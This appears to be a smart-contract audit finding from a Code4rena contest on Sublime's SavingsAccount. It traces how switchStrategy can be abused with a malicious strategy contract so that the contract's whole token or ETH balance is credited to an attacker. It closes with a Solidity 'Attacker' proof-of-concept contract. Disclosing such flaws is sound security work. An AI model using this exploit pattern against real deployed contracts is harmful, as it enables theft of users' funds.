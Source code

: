<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L160>

    require(_amount != 0, 'SavingsAccount::switchStrategy Amount must be greater than zero');

Bypass this check by setting \_amount > 0, since it will be overwritten in line
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L162>

    _amount = IYield(_currentStrategy).getSharesForTokens(_amount, _token);

getSharesForTokens() should be implemented to always return 0, hence to bypass the overflow in lines
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L164-L167>

    balanceInShares[msg.sender][_token][_currentStrategy] = balanceInShares[msg.sender][_token][_currentStrategy].sub(
    _amount,
    'SavingsAccount::switchStrategy Insufficient balance'
    );

since balanceInShares\[msg.sender]\[\_token]\[\_currentStrategy] == 0 and 0-0 will not overflow

The actual amount to be locked is saved in line
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L169>

    uint256 _tokensReceived = IYield(_currentStrategy).unlockTokens(_token, _amount);

the rouge unlockTokens() can check asset balance of the contract and return the full amount

After that some adjustment are made to set approval for the token or to handle native assets case
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L171-L177>

    uint256 _ethValue;
    if (_token != address(0)) {
        IERC20(_token).safeApprove(_newStrategy, _tokensReceived);
    } else {
        _ethValue = _tokensReceived;
    }
    _amount = _tokensReceived;

Finally the assets are locked in the locked strategy and shares are allocated on attackers acount
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L179-L181>

    uint256 _sharesReceived = IYield(_newStrategy).lockTokens{value: _ethValue}(address(this), _token, _tokensReceived);

    balanceInShares[msg.sender][_token][_newStrategy] = balanceInShares[msg.sender][_token][_newStrategy].add(_sharesReceived);

Proof of Concept

    import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

    contract Attacker{
    	function getSharesForTokens(uint256 amount, address token) external payable  returns(uint256){
    		return 0;
    	}
    	function unlockTokens(address token, uint256 amount) external payable returns(uint256){
    		uint256 bal;
    		if(token == address(0))
    			bal = msg.sender.balance;
    		else
    			bal = IERC20(token).balanceOf(msg.sender);
    		return bal;
    	}
    }
